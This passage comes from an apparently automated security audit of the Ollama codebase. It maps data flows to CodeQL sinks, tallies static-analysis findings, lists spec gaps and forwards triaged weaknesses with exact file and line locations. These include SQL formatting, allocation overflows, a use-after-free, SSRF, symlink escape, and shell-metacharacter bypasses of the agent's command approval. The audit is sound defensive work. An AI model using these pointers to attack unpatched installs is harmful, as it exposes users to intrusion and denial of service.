- `x/create/*` (~1500)
- `x/imagegen/*` excluding transfer (~1000 more)
**Probe focus**: confirm d931ee8f-relocation bypass; safetensors n-size cap; image-gen DoS amplification.

### Group G — Supporting / Low-priority (group into one team)
- `harmony/`, `thinking/`, `sample/`, `tools/` (template-side) (~1500)
- `discover/` GPU probing
- `api/client.go` (but audit `getAuthorizationToken` parity with server/auth.go)
- `auth/auth.go` (86 LOC)
- `envconfig/*`
**Probe focus**: api-client vs server-side fix parity; ed25519 key perm checks.

---

## Phase 4 CodeQL Extraction Targets

Each high-risk DFD slice with expected CodeQL source type and sink kind.

| DFD | CodeQL source type | CodeQL sink kind |
|-----|--------------------|------------------|
| DFD-1 (pull → disk) | `RemoteFlowSource` (net/http request body) | `file-access` (os.Create under models dir) |
| DFD-2 (blob upload → GGUF parse) | `RemoteFlowSource` (request body stream) | `file-access` + `file-read` (later load) |
| DFD-3 (create → symlink escape) | `LocalUserInput` (file path from request) + `FS.Walk` output | `file-read` (os.Open across symlink) → `file-access` (write to blobs) |
| DFD-4 (template → DoS) | `RemoteFlowSource` (Modelfile TEMPLATE in request) | `code-execution` (text/template.Execute) |
| DFD-5 (agent bash) | `LocalUserInput` (LLM response → tool_calls) | `command-execution` (`exec.CommandContext`) |
| DFD-6 (multimodal image) | `RemoteFlowSource` (base64 image in chat) | `code-execution` via cgo (`C.mtmd_helper_bitmap_init_from_buf`) — custom sink kind |
| DFD-7 (WWW-Authenticate token leak) | `RemoteFlowSource` (WWW-Authenticate header) | `http-request` (Bearer sent to attacker realm) |
| DFD-8 (zstd decompression) | `RemoteFlowSource` (zstd-encoded body) | `deserialization` (json.Unmarshal of decompressed content) |
| DFD-9 (web_fetch SSRF) | `RemoteFlowSource` (URL in request body) | `http-request` (proxy to ollama.com/api/web_fetch) |
| DFD-10 (safetensors header) | `LocalUserInput` (directory supplied via CLI) | unbounded `make([]byte, n)` — **custom sink**: `memory-allocation` |
| DFD-11 (audio multipart) | `RemoteFlowSource` | same as DFD-6 (cgo sink) |
| DFD-12 (Range response mismatch) | `RemoteFlowSource` (Content-Range header) | `file-access` (io.NewOffsetWriter at wrong offset) |
| DFD-13 (gzip bomb in auth token) | `RemoteFlowSource` (compressed body) | `memory-allocation` (io.ReadAll) |
| DFD-14 (\$EDITOR) | `EnvironmentVariable` | `command-execution` |
| DFD-15 (x/create directory) | `LocalUserInput` (--experimental CLI flag) | `file-read` + `file-access` |

**Sources that require new CodeQL models** (not in stock go-security-extended):
- `envconfig.Var("...")` — model as `EnvironmentVariable`.
- `*gin.Context.Param("...")` — model as URL-path tainted.
- `*gin.Context.GetHeader("...")` — model as RemoteFlowSource with header taint tag.
- Output of `llm tool_calls` parsing (`x/agent/...` loop) — model as LocalUserInput with "llm-output" sub-tag (still attacker-controlled indirectly).

**Sinks that require new models**:
- `C.*` cgo functions in `llama/llama.go` — define as `cgo-call` sink kind; tag each call site with the specific C function.
- `template.Template.Parse`/`.Execute` — already a CodeQL model in go-security-extended but must be extended for `text/template` (HTML escaping off).
- `manifest.BlobsPath` — **not** a sink; but its *absence* along a path is what we want. Consider a "required-validator-missing" query.

---

## Spec Gap Candidates (Phase 6)

1. **OCI Distribution Spec §3.5 `digest` canonicalization** — `pullWithTransfer` skips. GHSA-8hqg-whrw-pv92 class.
2. **OCI Distribution Spec §3.3 manifest content-type strict match** — ollama accepts `application/vnd.docker.distribution.manifest.v2+json` AND `application/vnd.oci.image.manifest.v1+json` without strict-matching to the `Accept` header it sent.
3. **RFC 7233 §4.2 Content-Range validation** — server's 206 response may lie; ollama does not check. Bypass Finding 4.
4. **RFC 6750 §3 realm validation** — fixed server-side only. `api/client.go:88` parity still unconfirmed.
5. **RFC 8089 file:// URI scheme rejection** — `x/tools/webfetch.go` does not reject.
6. **RFC 5890 IDN homograph** — `model.ParseName` accepts cyrillic/punycode registry hosts without normalization.
7. **GGUF v3 §alignment upper bound** — `general.alignment` attacker-controlled; used in offset arithmetic.
8. **safetensors format header-length signedness** — spec says uint64 LE; code reads int64 (`reader_safetensors.go:34`). Negative n triggers panic on `io.CopyN`.
9. **OCI Distribution Spec §authentication** — cross-domain redirect after 401 — partially handled; multi-hop redirect chains (301→401→redirect→401) not normalized.
10. **HTTP/2 — golang.org/x/net CVE-2023-44487** — patched via dependency; verify runner-spawned subprocess (which re-uses stdlib net/http) gets fresh config.
11. **multipart/form-data RFC 7578** — `/v1/audio/transcriptions` untested for boundary-smuggling.
12. **ed25519 `golang.org/x/crypto/ssh` OpenSSH private-key key-derivation** — file perms never checked (commit `64883e3c` only removed fallback path).
13. **zstd RFC 8878 maximum-window-size** — current decoder max-memory is 8 MB; spec permits up to 2 GB window; ensure no fallback path omits this.
14. **WebP / libwebp CVE-2023-4863 class** — vendored image libraries in llama.cpp should be version-checked against upstream.
15. **CSRF / SameSite semantics** — no cookie use, but Origin wildcard `app://*` still allows any Electron-origin request.

---

## Static Analysis Summary

**Phase 4 execution date:** 2026-04-17  
**Tools:** CodeQL 2.24.2, Semgrep 1.144.0 (standard; Pro not available)  
**Output:** `archon/sast-candidates.json` (210 candidates), `archon/static-analyzer-report.md`

### Built-in CodeQL Suites Run

| Suite | Queries | Findings |
|-------|---------|----------|
| `codeql/go-queries` (security-and-quality) | 36 | 38 |

### Built-in Semgrep Rulesets Run

| Ruleset | Files | Findings |
|---------|-------|---------|
| `p/golang` | 3,930 | ~270 |
| `p/security-audit` | 3,930 | included above |
| `p/secrets` | 3,930 | included above |

Total noise-filtered baseline findings: 22 (excluding `use-of-unsafe-block` false-positive flood of 262).

### Custom CodeQL Queries Created (10)

Stored in `archon/codeql-queries/`. All compiled and executed against the Go database.

| Query ID | DFD Slice | Findings | Notes |
|----------|-----------|----------|-------|
| `go/ollama/unbounded-readall-on-remote-response` | DFD-13 | 0 | server/auth.go:81 manual triage target |
| `go/ollama/length-from-binary-read-to-make` | DFD-2, DFD-10 | 4 | GGUF/safetensors binary.Read → make |
| `go/ollama/digest-path-no-canonicalization` | DFD-1 | 4 | manifest/* Digest→file without BlobsPath |
| `go/ollama/http-handler-no-auth` | all-HTTP | 0 | gin group middleware opaque to CodeQL |
| `go/ollama/exec-with-user-string` | DFD-5, DFD-14 | 8 | Getenv(EDITOR/VISUAL)→exec.Command |
| `go/ollama/template-execute-user-src` | DFD-4 | 72 | Broad; Phase 5 triage to template/ |
| `go/ollama/archive-extract-no-islocal` | DFD-3 | 0 | ZipSlip appears patched |
| `go/ollama/symlink-read-without-evalsymlinks` | DFD-3 | 18 | 18 glob→open paths without EvalSymlinks |
| `go/ollama/cgo-call-with-go-computed-length` | DFD-6 | 0 | C pseudo-package opaque; Semgrep compensated |
| `go/ollama/cloud-passthrough-host-not-allowlisted` | DFD-9 | 1 | OLLAMA_HOST env var without allowlist |

### Custom Semgrep Rules Created (8)

Stored in `archon/semgrep-rules/ollama-security-rules.yaml`.

| Rule ID | DFD Slice | Findings | Key Positives |
|---------|-----------|----------|---------------|
| `ollama-shouldbindjson-no-maxbytes` | DFD-8, DFD-13 | 0 | Pattern mismatch; auth.go uses net/http not gin |
| `ollama-cgo-length-unchecked` | DFD-6 | 57 | llama/llama.go:566 (image→mtmd), llama/llama.go:735, ml/backend/ggml/ggml.go:276 |
| `ollama-length-prefix-no-sanity` | DFD-2, DFD-10 | 0 | Sequential pattern not matched in current code structure |
| `ollama-exec-nonconstant` | DFD-5, DFD-14 | 53 | app/cmd/app/app.go:470; app/server/server_unix.go:24,57 |
| `ollama-join-no-islocal` | DFD-3 | 0 | Patched pattern not matched |
| `ollama-template-user-src` | DFD-4 | 0 | Wrapped pattern not matched by structural rule |
| `ollama-url-parse-no-scheme-check` | DFD-9 | 3 | server/cloud_proxy.go:185; x/tools/webfetch.go:100; x/tools/websearch.go:102 |
| `ollama-gin-route-no-allowed-hosts` | all-HTTP | 31 | server/routes.go:1683-1690+ (31 route registrations for manual review) |

### DFD/CFD Slices that Drove Targeted Custom Analysis

- **DFD-1** (pull→disk): Digest canonicalization gaps confirmed in manifest/*.go
- **DFD-2** (blob→GGUF): Length-prefix allocation confirmed in GGUF parser paths
- **DFD-3** (create→symlink): 18 unguarded glob→open paths; ZipSlip appears patched
- **DFD-4** (template→DoS): 72 paths to template.Execute — broad coverage, Phase 5 triage needed
- **DFD-5/DFD-14** (agent bash/$EDITOR): exec.Command with env-var args confirmed
- **DFD-6** (multimodal cgo): Go extractor limitation; Semgrep confirmed llama/llama.go:566
- **DFD-9** (web_fetch SSRF): No scheme check at x/tools/webfetch.go:100 confirmed
- **DFD-13** (gzip bomb): server/auth.go:81 io.ReadAll manual triage target

### Batching and Coverage Tradeoffs

- Semgrep Pro was unavailable (standard engine used). Noted per policy.
- CodeQL cgo boundary is a structural blind spot — compensated by Semgrep structural rules.
- Template query produced 72 findings intentionally broad — Phase 5 will triage.
- gin middleware group structure is opaque to both tools — 31 routes flagged for manual review.

---

## CodeQL Structural Analysis

**Populated from:** `archon/codeql-artifacts/entry-points.json`, `archon/codeql-artifacts/sinks.json`, `archon/codeql-artifacts/call-graph-slices.json`

### Entry Points (147 RemoteFlowSource nodes recognized)

Top entry point files:

| File | Count | Notes |
|------|-------|-------|
| api/client.go | 8 | HTTP response header reads (WWW-Authenticate etc.) |
| middleware/openai.go | 2 | OpenAI-compat request parsing |
| anthropic/anthropic.go | 2 | Anthropic proxy response headers |
| server/routes.go | multiple | gin request body reads (ShouldBindJSON) |
| app/tools/web_fetch.go | 2 | Web fetch response headers |
| app/ui/ui.go | 3 | UI request URL handling |

### Sinks (668 total)

| Kind | Count | Security Relevance |
|------|-------|-------------------|
| deserialization | 278 | json.Unmarshal — injection point for structured data attacks |
| path-construction | 169 | filepath.Join — path traversal risk |
| file-access | 118 | os.Create/Open — direct file system impact |
| command-execution | 45 | exec.Command — OS command injection |
| memory-allocation-readall | 34 | io.ReadAll — DoS via unbounded read |
| binary-read-length-prefix | 24 | binary.Read — length-prefix parser attacks |

### Call Graph Reachability (9 DFD slices)

| Slice | Reachable | Paths | Key Notes |
|-------|-----------|-------|-----------|
| DFD-1 (pull→disk) | Yes | 4 | Digest→file without BlobsPath |
| DFD-2 (blob→GGUF) | Yes | 4 | binary.Read→make without bounds check |
| DFD-3 (create→symlink) | Yes | 18 | glob→open without EvalSymlinks |
| DFD-4 (template→DoS) | Yes | 72 | RemoteFlow→template.Execute |
| DFD-5/DFD-14 (exec) | Yes | 8 | Getenv→exec.Command |
| DFD-6 (multimodal cgo) | No | 0 | Go extractor limitation — C boundary opaque |
| DFD-8/DFD-13 (gzip bomb) | No | 0 | Barrier active; auth.go:81 manual triage |
| DFD-9 (web_fetch SSRF) | Yes | 1 | OLLAMA_HOST env→HTTP request |

### Machine-Generated DFD Diagram

```mermaid
flowchart LR
    subgraph Sources["Entry Points (147 RemoteFlowSource)"]
        S1["api/client.go\nHTTP response headers"]
        S2["server/routes.go\nShouldBindJSON / Param"]
        S3["middleware/openai.go\nOpenAI request body"]
        S4["os.Getenv\nEDITOR / VISUAL / OLLAMA_HOST"]
        S5["binary.Read\nGGUF/safetensors file streams"]
        S6["filepath.Glob\nfilesystem walk paths"]
    end

    subgraph Transforms["Transformations"]
        T1["manifest.Digest field read"]
        T2["template.New().Parse()"]
        T3["filepath.Join(dir, name)"]
        T4["make([]byte, n)"]
    end

    subgraph Sinks["Sinks"]
        SK1["os.Create / os.OpenFile\n(file-access, 118)"]
        SK2["exec.Command / CommandContext\n(command-execution, 45)"]
        SK3["template.Execute\n(template-execution)"]
        SK4["make([]byte, n)\n(memory-allocation, 34 io.ReadAll)"]
        SK5["http.NewRequest\n(http-request / SSRF)"]
        SK6["C.mtmd_helper_bitmap_init_from_buf\n(cgo sink — manual)"]
    end

    S1 -->|"WWW-Auth realm"| T1
    T1 -->|"no BlobsPath() canonicalization (4 paths)"| SK1
    S2 -->|"model pull request"| SK5
    S2 -->|"GGUF/Modelfile"| T2
    T2 -->|"72 paths"| SK3
    S4 -->|"EDITOR/VISUAL"| SK2
    S4 -->|"OLLAMA_HOST (1 path)"| SK5
    S5 -->|"length n"| T4
    T4 -->|"4 paths — no bounds check"| SK4
    S6 -->|"18 paths — no EvalSymlinks"| SK1
    S3 -->|"base64 image"| SK6

    style SK1 fill:#ff4444,color:#fff
    style SK2 fill:#ff4444,color:#fff
    style SK6 fill:#ff4444,color:#fff
    style SK5 fill:#ff8800,color:#fff
    style SK3 fill:#ff8800,color:#fff
```

### Machine-Generated CFD Diagram

```mermaid
flowchart TD
    START["HTTP Request arrives"]

    START --> AHM{"allowedHostsMiddleware\n(DNS rebinding gate)"}
    AHM -->|"Host matches"| HANDLER["Route Handler"]
    AHM -->|"Host mismatch"| REJECT["403 Forbidden"]

    HANDLER --> AUTH{"Authorization header\npresent?"}
    AUTH -->|"Yes (token)"| VALIDATED["Validated Request"]
    AUTH -->|"No (default config)"| OPEN["Unauthenticated Access\nCVE-2025-63389 class"]

    VALIDATED --> PULL_API{"/api/pull?"}
    OPEN --> PULL_API

    PULL_API -->|"Yes"| DIGEST_CHECK{"BlobsPath()\ncanonicalization?"}
    DIGEST_CHECK -->|"Present"| SAFE_WRITE["Safe blob write"]
    DIGEST_CHECK -->|"Absent (4 CodeQL paths)"| UNSAFE_WRITE["Arbitrary file write\nCVE-2024-37032 class"]

    PULL_API -->|"No → /api/create"| SYMLINK_CHECK{"EvalSymlinks +\nIsLocal check?"}
    SYMLINK_CHECK -->|"Present"| SAFE_READ["Safe file read"]
    SYMLINK_CHECK -->|"Absent (18 CodeQL paths)"| SYMLINK_ESCAPE["Symlink escape\nd931ee8f class"]

    PULL_API -->|"No → GGUF parse"| BOUNDS_CHECK{"binary.Read length\nbounds check?"}
    BOUNDS_CHECK -->|"Present"| SAFE_ALLOC["Bounded allocation"]
    BOUNDS_CHECK -->|"Absent (4 CodeQL paths)"| OOM["OOM / DoS\nCVE-2025-0315 class"]

    PULL_API -->|"No → agent bash"| APPROVAL_CHECK{"extractBashPrefix\napproval check?"}
    APPROVAL_CHECK -->|"Passes"| EXEC_CHECK{"exec.Command args\nconstant?"}
    EXEC_CHECK -->|"No (8 CodeQL / 53 Semgrep paths)"| CMD_INJECT["Command injection\nDFD-14 / DFD-5"]
    EXEC_CHECK -->|"Yes"| SAFE_EXEC["Safe execution"]
    APPROVAL_CHECK -->|"Fails"| BLOCKED["Blocked"]

    style UNSAFE_WRITE fill:#ff4444,color:#fff
    style SYMLINK_ESCAPE fill:#ff4444,color:#fff
    style OOM fill:#ff8800,color:#fff
    style CMD_INJECT fill:#ff4444,color:#fff
    style OPEN fill:#ff8800,color:#fff
```

*Diagram limited to highest-risk slice paths (7 slices shown). DFD-6 (cgo) and DFD-7 (WWW-Auth) omitted from diagram due to CodeQL extraction coverage limitation — marked `[incomplete — low extraction coverage]` for those two slices.*

---


## Phase 7 Enrichment Notes

**Analyst:** Enrichment Filter (Phase 7)  
**Date:** 2026-04-17  
**Input:** 210 SAST candidates from sast-candidates.json  
**Output:** archon/enrichment-filter-report.md, archon/sast-filtered.json

### Summary of Dispositions

| Disposition | Count |
|-------------|-------|
| duplicate-of-probe (routed via probe channel) | 117 |
| false-positive (dropped) | 15 |
| environment/admin-only (dropped) | 61 |
| low-severity (dropped) | 12 |
| security — NEW, forwarded to Phase 8 | 5 individual + 1 cluster (31 routes) |
| correctness — forwarded to Phase 8 | 2 |

### New Security Findings Forwarded to Phase 8 (not previously probed)

1. **SAST-SQL-01** — `app/store/database.go:64`: String-formatted SQL query. Model name from API may reach SQLite without parameterization. Severity MEDIUM/HIGH pending verification. No existing probe covers this.

2. **SAST-ALLOC-01** — `anthropic/trace.go:71`: Integer overflow in allocation (CWE-190/680). Arithmetic on Anthropic streaming response value used in make(). Severity HIGH. Not in any probe group.

3. **SAST-ALLOC-02** — `model/renderers/json.go:14`: Integer overflow in allocation (CWE-190/680). Model JSON rendering path; large token count/shape field. Severity HIGH. Not in any probe group.

4. **SAST-ALLOC-03** — `tokenizer/wordpiece.go:61`: Integer overflow in allocation (CWE-190/680). Wordpiece tokenizer output count overflow. Severity HIGH. Not in any probe group.

5. **SAST-UAF-01** — `ml/backend/ggml/ggml/src/ggml-alloc.c:894`: Use-after-free in ggml graph allocator (CWE-416). Any inference request can trigger; potential cross-user DoS or RCE. Severity HIGH. Not in any probe group. Verify against upstream ggml patch history.

6. **SAST-DNS-01 (cluster)** — `server/routes.go` lines 1683–1733 (31 route registrations): Routes missing allowedHostsMiddleware. Partial overlap with Group C (PH-04/PH-10) but SAST cluster adds specific line identification. Severity MEDIUM (HIGH chained with probe-confirmed bypass). Forwarded alongside probe channel to Phase 8 DNS-rebinding chamber.

### Correctness Findings Forwarded to Phase 8

- **SAST-INT-01** — `convert/convert_deepseek2.go:155` and `convert/convert_glm4moelite.go:200`: Narrowing integer conversion from strconv.Atoi result (int) to uint32 without bounds check. Silent truncation in model conversion. Severity MEDIUM; upgrade to HIGH if downstream allocation uses truncated value.

### Entry Points Not Present in Phase 3 DFD Slices

- `app/store/database.go` — SQLite store layer not covered by any DFD entry point. The API→store data flow for model name/tag fields is unmodeled.
- `anthropic/trace.go`, `model/renderers/json.go`, `tokenizer/wordpiece.go` — Allocation overflow sinks in response-rendering and tokenization paths downstream of DFD-2's binary.Read source; these specific arithmetic sinks are absent from the enumerated DFD-2 sinks.
- `ml/backend/ggml/ggml/src/ggml-alloc.c:894` — C heap management within ggml inference backend; not in any DFD slice. Represents an unmodeled high-risk flow from inference API to C heap UAF.

### Sinks from sinks.json Mapping to Unmodeled High-Risk Flows

- The 668 enumerated sinks do not include C-level memory management operations in vendored ggml. The UAF at ggml-alloc.c:894 is outside the Go CodeQL extraction scope entirely.
- The 278 json.Unmarshal sinks: if any target struct field flows into the SQL query at database.go:64, an unmodeled source→sink path exists.
- The 34 io.ReadAll sinks: auth.go:81 (DFD-13 manual target) and images.go:864 are covered by probes; remaining ReadAll sinks not in forwarded findings.

### CodeQL Reachability Notes for Phase 8 Chambers

- DFD-6 `reachable: false` reflects CodeQL Go extractor limitation (cannot model C pseudo-package calls), not a safety guarantee. All DFD-6 Semgrep findings treated as manual positives.
- DFD-13 `reachable: false` for auth.go:81 is a CodeQL field-read modeling gap; probe PH-14 evidence is authoritative.
- DFD-2 reachability (true) strengthens SAST-ALLOC-01/02/03 and SAST-INT-01 — same allocation-overflow class confirmed reachable by CodeQL across the GGUF parser path.

## Spec Gap Analysis

Merge normalization note: the merged bundle did not preserve a canonical inline spec-gap section in `knowledge-base-report.md`. Source-era material remains available in `archon/spec-gap-report.md`; no new spec-to-code analysis was performed during merge mode.


## Phase 5 Enrichment Notes

Merge normalization rebuilt frontmatter, applied 11 severity-final overrides already encoded in the source drafts/adversarial reviews, and preserved 11 original-vs-final divergence markers in the promoted findings. Two semantic duplicates were collapsed and 21 high-severity entries without evidence were quarantined rather than promoted.


## Phase 7 Addendum

The merged chamber outputs were normalized against the current promoted findings tree. Semantic dedup decisions kept `H6-agent-approval-shell-metachar-bypass` over `H22-yolo-mode-denylist-quoting-bypass`, and `H7-agent-approval-command-substitution-path` over `M23-approval-cache-flag-blindness-sed-i`, based on shared root-cause loci in `x/agent/approval.go`.


## Merge Normalization Addendum

- Generated: 2026-04-17T16:10:25Z
- Source dir: `/tmp/merge-ollama/ollama-archon`
- Source dir: `/tmp/merge-ollama/ollama-with-opus-4.7`
- Findings retained after normalization: 45 (CRITICAL 3, HIGH 7, MEDIUM 35)
- Semantic dedup merges: 2
- Quarantined findings: 21
- Rename operations: 43

